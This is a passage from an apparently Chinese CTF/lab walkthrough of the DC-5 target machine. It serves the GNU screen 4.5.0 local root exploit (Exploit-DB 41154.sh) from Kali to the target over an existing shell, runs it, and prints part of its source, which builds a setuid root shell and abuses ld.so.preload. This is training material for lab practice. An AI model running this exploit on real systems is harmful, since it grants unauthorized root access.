 我们直接利用

/usr/share/exploitdb/exploits/linux/local / 目录下的 41154.sh 文件  
将该 41154.sh 文件拷贝到 / root 目录下

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9Wdq00y9GciaPfgeNxHh6wMqTFxF35sNcOeY06zqx4uqt57Iu4HbfTBvw/640?wx_fmt=png)

将 41154.sh 文件上传到目标机 DC-5 上面  
kali 中当前路径开启 python.server，供 DC-5 下载

```
命令：python -m SimpleHTTPServer 9999
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WCpz307fE024bk13dbuKCdExowXlunlkmOG06Kw4QhL7XZMnHBbCADg/640?wx_fmt=png)

用 python 开启简单的服务器后，在以获得的 DC-5 的 getshell 下载 41154.sh 文件；

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WFq1tcbQtZ5YVruXjggAKTd3yyFhxJe9BcgF3EuCmSicd811ObI6nCoQ/640?wx_fmt=png)

编译脚本

```
chmod +x 41154.sh
./41154.sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WUn6c7ibK8uFjJLzvDDg2hiaIxlq7eN29w9XqyTL2Sr4RB0zXOUYtHfcQ/640?wx_fmt=png)

我们可以发现，脚本执行出现错误。  
重新在 kali 中打开 41154.sh 文件，研究一下 41154.sh 脚本代码

```
root@kalilinux:~# cat 41154.sh
# !/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
# include <stdio.h>
# include <sys/types.h>
# include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
# include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```